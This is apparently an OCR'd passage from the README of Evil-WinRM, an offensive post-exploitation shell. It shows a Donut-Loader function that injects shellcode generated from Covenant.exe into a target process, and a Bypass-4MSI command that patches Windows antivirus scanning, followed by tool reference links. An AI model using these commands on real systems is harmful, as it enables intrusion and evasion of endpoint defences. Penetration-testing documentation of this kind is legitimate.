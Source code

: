 ```
*Evil-WinRM* PS C:\> Donut-Loader
.SYNOPSIS
    Donut Loader.
    PowerShell Function: Donut-Loader
    Author: Luis Vacas (CyberVaca)
    Based code: TheWover

    Required dependencies: None
    Optional dependencies: None
.DESCRIPTION

.EXAMPLE
    Donut-Loader -process_id 2195 -donutfile /home/cybervaca/donut.bin
    Donut-Loader -process_id (get-process notepad).id -donutfile /home/cybervaca/donut.bin

    Description
    -----------
    Function that loads an arbitrary donut :D
```

You can use this [donut-maker] to generate the payload.bin if you don't use Windows.
This script use a python module written by Marcello Salvati ([byt3bl33d3r]). It could be installed using pip: `pip3 install donut-shellcode`

```
python3 donut-maker.py -i Covenant.exe

   ___  _____
 .'/,-Y"     "~-.
 l.Y             ^.
 /\               _\_      Donuts!
i            ___/"   "\
|          /"   "\   o !
l         ]     o !__./
 \ _  _    \.___./    "~\
  X \/ \            ___./
 ( \ ___.   _..--~~"   ~`-.
  ` Z,--   /               \
    \__.  (   /       ______)
      \   l  /-----~~" /
       Y   \          /
       |    "x______.^
       |           \
       j            Y



[+] Donut generated successfully: payload.bin
```

 - Bypass-4MSI: patchs AMSI protection.
```
*Evil-WinRM* PS C:\> #amsiscanbuffer
At line:1 char:1
+ #amsiscanbuffer
+ ~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
*Evil-WinRM* PS C:\>
*Evil-WinRM* PS C:\> Bypass-4MSI
[+] Success!

*Evil-WinRM* PS C:\> #amsiscanbuffer
```

[Cybervaca]: https://github.com/cybervaca
[OscarAkaElvis]: https://github.com/OscarAkaElvis
[Jarilaos]: https://github.com/jarilaos
[arale61]: https://github.com/arale61
[Vis0r]: https://github.com/vmotos
[Alamot]: https://github.com/Alamot
[3v4Si0N]: https://github.com/3v4Si0N
[Borch]: https://github.com/Stoo0rmq
[donut]: https://github.com/TheWover/donut
[donut-maker]: https://github.com/Hackplayers/Salsa-tools/blob/master/Donut-Maker/donut-maker.py
[byt3bl33d3r]: https://twitter.com/byt3bl33d3r
[WinRb]: https://github.com/WinRb/WinRM/graphs/contributors
[TheWover]: https://github.com/TheWover
[Sh11td0wn]: https://github.com/Sh11td0wn
[ticketer.py]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py
[ticket_converter.py]: https://github.com/Zer1t0/ticket_converter
[Rubeus]: https://github.com/GhostPack/Rubeus
[Mimikatz]: https://github.com/gentilkiwi/mimikatz
[cheatsheet]: https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
[Dockerhub]: https://hub.docker.com/r/oscarakaelvis/evil-winrm
[Hackplayers]: https://www.hackplayers.com/
[@CyberVaca_]: https://twitter.com/CyberVaca_
[@OscarAkaElvis]: https://twitter.com/OscarAkaElvis
[@_Laox]: https://twitter.com/_Laox
[@arale61]: https://twitter.com/arale61
[Version-shield]: https://img.shields.io/badge/version-4.0-blue.svg?style=flat-square&colorA=273133&colorB=0093ee "AI version"
[Ruby2.3-shield]: https://img.shields.io/badge/ruby-2.3%2B-blue.svg?style=flat-square&colorA=273133&colorB=ff0000 "Ruby 2.3 or later"
[License-shield]: https://img.shields.io/badge/license-LGPL%20v3%2B-blue.svg?style=flat-square&colorA=273133&colorB=bd0000 "LGPL v3+"
[Docker-shield]: https://img.shields.io/docker/automated/oscarakaelvis/evil-winrm.svg?style=flat-square&colorA=273133&colorB=a9a9a9 "Docker rules!"
[Gem-Version]: https://badge.fury.io/rb/evil-winrm-ai.svg "Ruby gem"